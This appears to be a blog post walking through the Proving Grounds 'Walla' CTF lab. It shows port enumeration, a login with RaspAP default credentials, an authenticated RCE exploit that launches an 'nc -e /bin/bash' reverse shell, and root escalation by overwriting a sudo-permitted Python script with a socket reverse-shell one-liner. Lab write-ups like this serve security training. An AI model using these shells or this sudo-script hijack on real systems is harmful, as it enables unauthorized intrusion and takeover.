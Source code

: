 ```yaml
---
layout: post
title: Proving Grounds - Walla
subtitle: CTF Walkthrough
cover-img: /assets/img/walla/walla.jpg
thumbnail-img: /assets/img/walla/walla.jpg
tags: [ctf, 'proving grounds', 'pg']
comments: true
---
```


Intermediate rated OSCP like box found on Proving Grounds. Lets check it out.

### Enumeration

```
└─$ rustscan -a 192.168.209.97 -- -sC -sV | tee nmap

PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
23/tcp    open  telnet     syn-ack Linux telnetd
25/tcp    open  smtp       syn-ack Postfix smtpd
| ssl-cert: OpenSSL required to parse certificate.
| -----BEGIN CERTIFICATE-----
| MIICzTCCAbWgAwIBAgIUSjsFHwJii76XBfqWrgTLj7nupXgwDQYJKoZIhvcNAQEL
| BQAwEDEOMAwGA1UEAwwFd2FsbGEwHhcNMjAwOTE3MTgyNjM2WhcNMzAwOTE1MTgy
| NjM2WjAQMQ4wDAYDVQQDDAV3YWxsYTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
| AQoCggEBAOwqF+jjwFmrSmgMiDEP1C3Adi9w1nrHCw8pFunsf2BnG4tRF3Xj2blV
| d5+CaCqmsiADAjFGXNREudaCvYKvw9ctU83dKw8khjho9Q+vm6AEMgS78uQNhQp3
| uXFkQVboMxYZdtxGs2/JkE0S52qYXScSJWer8uEon7qAkLgRJ1gQQHlqZ44ekmdt
| wPaQIu5IYWIeMYiLHb3Ivvk6esj/01NpaNmTNyljF2LxdEJaRjYYEMPqvS2Z5Dzd
| QL+fIWkeINwvWl+J4rkZA5xnLnOo08BG4MtGHAi0b2+bJ4fGT4fnrgoXoG6D9vIN
| jcxFhgScgAiA+ifARtuoKjWMukDiChUCAwEAAaMfMB0wCQYDVR0TBAIwADAQBgNV
| HREECTAHggV3YWxsYTANBgkqhkiG9w0BAQsFAAOCAQEAmzn/Ujcmz5o+qRXzL2ZR
| 60yEhjRd3kRaU4im8917uvzt7tZ/ELIGbCEEaNfhNOvyqDAtRPZC7U1m94baUqr+
| 741Er3x+NPR8A0aNn4tYq6SnD66XNeVecQfplg6uTjVCChO1iEAFXo1ETUjP6WV6
| Am8XspbmjffTPLWei0uw+qXfOL9TFu8sIFbhr0+UmV6ZpXNc+yoqGUlKFUTcHye0
| OZHrz6yNf+hUnMWBY6wWUB5SlpT4Onrnm6SWBU7rAD3kvLAsmpQHI38x5NTAxRWZ
| m5NUiiBnSYTwXytEvzHdqgkNxKPQDKnfS8D9oeVFjtM22TNKI8ytVFV+SQ0plPA+
| tQ==
|_-----END CERTIFICATE-----
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
|_ssl-date: TLS randomness does not represent time
53/tcp    open  tcpwrapped syn-ack
422/tcp   open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
8091/tcp  open  http       syn-ack lighttpd 1.4.53
|_http-server-header: lighttpd/1.4.53
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
42042/tcp open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: Host:  walla; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation

Looking into Nmap results for port 8091, we can see it's potentially running RaspAP. Googling  RasAP default login I managed to get credentials **admin:secret** to the web application.

![alt text](/assets/img/walla/webpage.png)

Also did a Searchsploit search for this web application and I found an exploit for RaspAP 2.6.6

```
└─$ searchsploit raspap
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated)                     | php/webapps/50224.py
------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results                     
```

Unfortunately RaspAP version is v2.5. Doing a quick google search I found [CVE-2020-24572](https://github.com/gerbsec/CVE-2020-24572-POC/blob/main/exploit.py) which does the job as well.

```
└─$ python exploit.py 192.168.209.97 8091 192.168.49.209 8091 secret 1      
[!] Using Reverse Shell: nc -e /bin/bash 192.168.49.209 8091
[!] Sending activation request - Make sure your listener is running . . .
[>>>] Press ENTER to continue . . .

[!] You should have a shell :)

[!] Remember to check sudo -l to see if you can get root through /etc/raspap/lighttpd/configport.sh
```

Got a low privilege shell.

```
└─$ nc -nvlp 8091
listening on [any] 8091 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.97] 44184
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@walla:/var/www/html/includes$ whoami
whoami
www-data
www-data@walla:/var/www/html/includes$ 
```

Walter's home directory contains local.txt and wifi_reset.py script.
```
www-data@walla:/home/walter$ ls -la
ls -la
total 28
drwxr-xr-x 2 www-data www-data 4096 Sep 17  2020 .
drwxr-xr-x 6 root     root     4096 Sep 17  2020 ..
-rw-r--r-- 1 walter   walter    220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 walter   walter   3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 walter   walter    807 Apr 18  2019 .profile
-rw------- 1 www-data walter     33 Nov 12 08:28 local.txt
-rw-r--r-- 1 root     root      251 Sep 17  2020 wifi_reset.py
```

### Privilege escalation

Did a check  what www-user can run with sudo
```
www-data@walla:/tmp$ sudo -l
sudo -l
Matching Defaults entries for www-data on walla:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
```

Looks like we can run wifi_reset.py with sudo.  I added a Python reverse shell to the script.

```
www-data@walla:/home/walter$ cat > wifi_reset.py << EOF
cat > wifi_reset.py << EOF
> import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.209",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
<eno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
> EOF
EOF
```

Ran the script with sudo, and got the shell !

```
www-data@walla:/home/walter$ sudo /usr/bin/python /home/walter/wifi_reset.py
```

```
└─$ nc -nvlp 80                                                                        
listening on [any] 80 ...
connect to [192.168.49.209] from (UNKNOWN) [192.168.209.97] 40914
# cd /root
cd /root
# ls -la
ls -la
total 20
drwx------  2 root root 4096 Nov 12 08:27 .
drwxr-xr-x 18 root root 4096 Sep 17  2020 ..
lrwxrwxrwx  1 root root    9 Sep 17  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Nov 12 08:28 proof.txt
```

GG fun and straightforward lab.